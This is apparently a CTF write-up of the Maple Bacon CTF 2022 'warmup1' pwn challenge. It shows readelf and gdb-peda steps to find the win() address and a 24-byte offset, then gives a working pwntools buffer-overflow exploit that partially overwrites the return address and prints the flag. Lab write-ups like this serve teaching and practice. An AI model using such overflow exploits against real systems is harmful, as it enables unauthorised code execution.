





# Maple Bacon CTF 2022 - Pwn - warmup1
Author: =)#9593
Release Date: August 26, 2022

## Challege Description
It's like warmup2, but easier

## Tools Used
- Ghidra
- readelf
- gdb + peda
- python3 + pwntools

## Write Up

Given:

link to a nc listner and a executable

```
$ file chal              
chal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=24a5eb328ee598833e93f2091ddeb2f9554ca9b5, for GNU/Linux 3.2.0, not stripped
```

No Stripped, thats good.

Decompile the program in Ghidra. And we see 3 functions:

main()


vuln()


win()


Looks like we need to create a buffer offerflow to run the win() function. Lets find out the memory address of the win function:

```
$ readelf -s chal | grep FUNC    
     2: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     3: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND alarm@GLIBC_2.2.5 (2)
     4: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND read@GLIBC_2.2.5 (2)
     5: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND [...]@GLIBC_2.2.5 (2)
     8: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND execl@GLIBC_2.2.5 (2)
    10: 0000000000000000     0 FUNC    WEAK   DEFAULT  UND [...]@GLIBC_2.2.5 (2)
    29: 00000000000010f0     0 FUNC    LOCAL  DEFAULT   16 deregister_tm_clones
    30: 0000000000001120     0 FUNC    LOCAL  DEFAULT   16 register_tm_clones
    31: 0000000000001160     0 FUNC    LOCAL  DEFAULT   16 __do_global_dtors_aux
    34: 00000000000011a0     0 FUNC    LOCAL  DEFAULT   16 frame_dummy
    45: 0000000000001000     0 FUNC    LOCAL  DEFAULT   12 _init
    46: 00000000000012c0     5 FUNC    GLOBAL DEFAULT   16 __libc_csu_fini
    50: 00000000000011a9    37 FUNC    GLOBAL DEFAULT   16 vuln
    53: 00000000000012c8     0 FUNC    GLOBAL HIDDEN    17 _fini
    54: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND setbuf@@GLIBC_2.2.5
    55: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND alarm@@GLIBC_2.2.5
    56: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND read@@GLIBC_2.2.5
    57: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_mai[...]
    62: 0000000000001250   101 FUNC    GLOBAL DEFAULT   16 __libc_csu_init
    63: 0000000000001219    47 FUNC    GLOBAL DEFAULT   16 win
    65: 00000000000010c0    47 FUNC    GLOBAL DEFAULT   16 _start
    67: 00000000000011ce    75 FUNC    GLOBAL DEFAULT   16 main
    70: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND execl@@GLIBC_2.2.5
    71: 0000000000000000     0 FUNC    WEAK   DEFAULT  UND __cxa_finalize@@[...]
```
Looks like it is at 0000000000001219. Least Significant bit is \x19.

Next we need to find the offset:

Create a pattern:

```
gdb-peda$ pattern create 128
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOA'
```

Run the program and input the pattern:



We found the offset of 24. Lets test it out. Create a pattern and add "CCCC" to it. run the program and input the pattern plus the 4 Cs (43 in hex). 

```
gdb-peda$ pattern create 24
AAA%AAsAABAA$AAnAACAA-AA
```




Cool now we confirmed the offset. Let write a payload to exploit this

```python
#!/usr/bin/env python3

import pwn

offset = 24
winfunc = b'\x19'

# Local File
io = pwn.ELF("./chal").process()

# Remote 
#io = remote('warmup1.ctf.maplebacon.org', 1337)

io.send(b'A' * offset + winfunc)

print(io.recv())
```
We run the exploit:

```
python3 exploit.py
[*] '/home/shelldrake/Downloads/chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/shelldrake/Downloads/chal': pid 43423
b'maple{winwinwin}\n'
[*] Process '/home/shelldrake/Downloads/chal' stopped with exit code 0 (pid 43423)
```
There's your flag.